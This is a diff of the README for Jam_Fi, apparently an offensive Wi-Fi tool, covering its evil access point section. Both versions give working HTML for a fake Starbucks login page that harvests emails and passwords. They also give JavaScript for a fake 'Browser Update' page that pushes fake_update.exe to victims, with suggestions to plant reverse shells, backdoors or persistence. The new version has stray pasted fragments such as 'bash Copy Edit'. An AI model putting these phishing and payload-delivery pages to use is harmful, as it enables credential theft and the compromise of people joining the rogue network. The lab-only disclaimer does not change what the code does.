

Before and after one commit to ekomsSavior/Jam_fi, a Markdown page: README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -109,51 +109,48 @@ Edit the scan delay inside jam_fi.py (look for time.sleep() under channel_hopper
 Lowering sleep delay to 0.2 or less can speed things up, but may increase CPU usage.
 
 👿 Evil AP Customization
-
-🎨 Customize the Captive Portal:
-
+🎨 Customize the Captive Portal
 Edit this file to make your own fake login page:
 
+bash
+Copy
+Edit
 loot/login.html
+Wanna make it look like Starbucks? Just change the login.html body like this:
 
-Wanna make it look like Starbucks? Just change the login.html body:
-
-" <h2>Welcome to Starbucks Free Wi-Fi</h2>
-<p>Please sign in to continue</p>
-<form method="POST" action="/login">
-  <input type="text" name="username" placeholder="Email"><br>
-  <input type="password" name="password" placeholder="Wi-Fi Password"><br>
-  <input type="submit" value="Connect">
-</form> "
-
+<pre> ```html <h2>Welcome to Starbucks Free Wi-Fi</h2> <p>Please sign in to continue</p> <form method="POST" action="/login"> <input type="text" name="username" placeholder="Email"><br> <input type="password" name="password" placeholder="Wi-Fi Password"><br> <input type="submit" value="Connect"> </form> ``` </pre>
 You can view your collected credentials in:
 
+bash
+Copy
+Edit
 loot/creds.txt
+🔐 Advanced Hack: Fake Browser Update + Payload (Optional)
+JamFi lets you simulate a fake browser update prompt using pure HTML + JavaScript — no Flipper or Rubber Ducky required!
 
-🔐 Advanced Hack: Fake Browser Update + Payload (Optional)
+Once a device connects to your Evil AP, redirect them to a custom update page by editing:
 
-Jam_Fi lets you simulate a fake browser update prompt using pure HTML + JavaScript — no Flipper or Rubber Ducky required. Once a device connects to your Evil AP, you can redirect them
+bash
+Copy
+Edit
+loot/injection.html
+Here’s a simple example:
 
-to a custom update page that looks legit and even downloads a file of your choosing. You control it via loot/injection.html. Here's a simple example:
+<pre> ```html <!-- loot/injection.html --> <h2>🔒 Browser Update Required</h2> <p>To continue browsing, please install the latest security patch.</p> <button onclick="downloadUpdate()">Update Now</button> <script> function downloadUpdate() { const a = document.createElement('a'); a.href = 'http://10.0.0.1/fake_update.exe'; // Customize your payload here a.download = 'update.exe'; document.body.appendChild(a); a.click(); } </script>
+bash
+Copy
+Edit
+</pre>
 
-<!-- loot/injection.html -->
-<h2>🔒 Browser Update Required</h2>
-<p>To continue browsing, please install the latest security patch.</p>
-<button onclick="downloadUpdate()">Update Now</button>
-<script>
-function downloadUpdate() {
-  const a = document.createElement('a');
-  a.href = 'http://10.0.0.1/fake_update.exe';  // Customize your payload here
-  a.download = 'update.exe';
-  document.body.appendChild(a);
-  a.click();
-}
-</script>
+Place your payload in the `loot/` folder as:
 
-Just place your payload or tool (like netcat, reverse_shell.exe, etc.) in the loot/ folder as fake_update.exe.
+fake_update.exe
 
-You now have a simulated Remote Code Execution (RCE) opportunity: once the user runs your downloaded file, you can initiate reverse shells or persistence — depending on your lab setup.
+yaml
+Copy
+Edit
 
+Now you have a simulated **Remote Code Execution (RCE)** opportunity: if the victim downloads and runs the file, you can trigger reverse shells, backdoors, or persistence (depending on your setup).
 ⚠️ Jam_Fi does not include any malicious payloads — it's up to you to create safe, controlled experiments in your own lab. This is where red teamers, CTF lovers, and students can shine.
 
 ## 💼 The loot/ Folder
````
